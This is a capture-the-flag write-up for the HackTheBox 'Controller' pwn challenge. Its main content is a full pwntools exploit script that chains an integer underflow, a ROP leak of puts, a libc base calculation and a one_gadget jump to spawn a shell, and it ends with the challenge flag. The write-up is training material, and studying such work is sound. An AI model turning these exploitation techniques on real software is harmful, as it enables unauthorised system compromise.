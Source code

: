 ```yaml
---
name: Controller (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Controller (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Controller

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/6DRuT1JBmBE/0.jpg)](https://youtu.be/6DRuT1JBmBE?t=30s "HTB Cyber Apocalypse CTF 2021: Controller")

## Challenge Description

> The extraterrestrials have a special controller in order to manage and use our resources wisely, in order to produce state of the art technology gadgets and weapons for them. If we gain access to the controller's server, we can make them drain the minimum amount of resources or even stop them completeley. Take action fast!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Perform subtraction of two negatives to get +65338
def calc(p):
    p.sendlineafter(': ', '-65338')
    p.sendline('-130676')
    p.sendlineafter('>', '2')

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './controller'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Swap between local and remote libc
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 40

# Start program
io = start()

# Generate 65338 in calculator
calc(io)

# Leak got.puts using ROP object
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.calculator()

# Send the payload
io.sendlineafter('>', flat({offset: rop.chain()}))
io.recvline()

# Get our leaked got.write address and format it
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Set the libc_base_addr using the offsets
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Generate 65338 in calculator
calc(io)

# Send the payload - one_gadget
io.sendlineafter('>', flat({offset: libc.address + 0x4f3d5}))

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}`
